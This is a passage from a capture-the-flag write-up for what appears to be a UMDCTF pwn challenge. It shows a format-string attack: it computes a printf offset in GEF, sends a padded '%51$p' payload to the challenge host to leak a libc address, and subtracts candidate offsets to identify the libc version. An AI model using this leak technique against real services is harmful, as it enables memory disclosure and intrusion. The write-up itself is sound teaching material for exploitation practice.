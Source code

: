 > Notice the `%16$p` on the stack, that's at `printf` offset `16` as mentioned above.

That `__libc_start_main` is our first `libc` leak, so we'll just use that.  Computing the offset with:

```
gef➤  p/d (0x00007fffffffe3b8 - 0x00007fffffffe2a0) / 8 + 16
$3 = 51
```

Gives us `51` as the `printf` offset.  We need to send this remotely to get the correct libc version:

```bash
# nc chals5.umdctf.io 7002
SYSTEM CONSOLE> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%51$p
Check Systems
1 - Hoth
2 - Black Hole
3 - Mars
4 - Logout
Current location: 0x7fdfb1becbf7
```

Ok, this is where experience and a bit of luck comes in.  That number (`0x7fdfb1becbf7`) is `__libc_start_main+243`, or is it?  Well, it is not.  It's actually `__libc_start_main+231`.  Different libcs will have different offsets.  Fortunately in the last 12 months of CTF's its been `243` or `231` for most of these types of challenges.  Just take that long number and subtract `243` and `231` and then look at the last 3 nibbles.  You'll get:

```bash
# printf "%x\n" $(((0x7fdfb1becbf7 - 243) & 0xfff))
b04
# printf "%x\n" $(((0x7fdfb1becbf7 - 231) & 0xfff))
b10
``` 

Now use your favorite libc database (e.g. [https://libc.blukat.me](https://libc.blukat.me)) and check:

![](libc.png)
